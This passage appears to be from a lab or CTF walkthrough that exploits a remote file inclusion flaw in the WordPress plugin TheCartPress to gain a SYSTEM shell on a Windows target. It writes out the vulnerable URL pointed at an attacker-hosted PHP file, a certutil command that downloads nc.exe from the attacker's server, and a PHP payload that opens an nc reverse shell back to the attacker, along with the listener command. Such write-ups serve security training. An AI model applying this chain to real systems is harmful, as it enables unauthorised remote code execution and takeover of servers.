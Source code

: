 On opening the exploit, you can see that we have to change the server address and the path and then add the location of our Remote file. Simple !

```
http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=
```
Now I will host a simple command in a php file to see if it working. Here are the contents of the file I created and named if myphp.php.

```php
<?php system('whoami'); ?>
```
Quickly host it on a python server where you created the ```myphp``` file

```zsh
python -m SimpleHTTPServer 8000
```

Edit the ```RFI``` URL with the IP of the machine and the path.

```http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=http://10.10.0.40:8000/myphp.php```

And here is what we see :

![Command in the file works](./images/cmd.png)

Now you can upload a nc.exe using certutil by changing the contents of the ```myphp``` file.

Replace ```whoami``` with this:

```certutil -urlcache -split -f http://10.10.0.40:8000/nc.exe %TEMP%/nc.exe```

If you donot know where nc is inside your kali, just use ```locate nc.exe``` and copy it to where you are hosting the python server

Now refresh the url and it should upload your nc file in the %TEMP% folder. Now we need to get a reverse shell via the nc.

Again change the contents of the ```myphp``` file with this:

```zsh
<?php system('%TEMP%/nc.exe -e cmd.exe 10.10.0.40 443'); ?>
```
Start a listener and wait 

```zsh 
rlwrap nc -lvnp 443
```
Now we have a shell with ```SYSTEM``` privilege.

![Shell with SYSTEM Privilege](./images/system.png)
